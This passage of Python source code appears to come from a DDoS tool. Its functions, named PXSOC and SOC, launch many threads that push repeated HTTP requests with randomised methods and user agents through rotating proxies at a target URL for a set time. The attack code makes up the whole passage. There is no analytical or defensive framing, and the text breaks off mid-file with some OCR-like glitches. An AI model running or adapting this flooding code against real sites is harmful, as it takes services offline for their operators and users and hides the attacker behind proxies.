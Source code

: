 #region PXSOC
def LaunchPXSOC(url, th, t):
    target = get_target(url)
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m +target['uri'] + " HTTP/1.1\r\n"
    req += "Host: " + target['host'] + "\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Connection: Keep-Alive\r\n\r\n"
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackPXSOC, args=(target, until, req))
            thd.start()
        except:
            pass

def AttackPXSOC(target, until_datetime, req):
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            proxy = random.choice(list(proxies)).split(":")
            if target['scheme'] == 'https':
                s = socks.socksocket()
                s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
                s.set_proxy(socks.HTTP, str(proxy[0]), int(proxy[1]))
                s.connect((str(target['host']), int(target['port'])))
                s = ssl.create_default_context().wrap_socket(s, server_hostname=target['host'])
            else:
                s = socks.socksocket()
                s.setsockopt(socket.IPPROTO_TCP, socket.TCP_NODELAY, 1)
                s.set_proxy(socks.HTTP, str(proxy[0]), int(proxy[1]))
                s.connect((str(target['host']), int(target['port'])))
            try:
                for _ in range(100):
                    s.send(str.encode(req))
            except:
                s.close()
        except:
            return
#endregion

#region SOC
def LaunchSOC(url, th, t):
    target = get_target(url)
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    m = random.choice(method)
    user_agent = random.choice(useragents)
    req =  m ++target['uri']+" HTTP/1.1\r\nHost: " + target['host'] + "\r\n"
    req += user_agent +"\r\n"
    req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\n'"
    req += "Connection: Keep-Alive\r\n\r\n"
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackSOC, args=(target, until, req))
            thd.start()
        except:
            pass

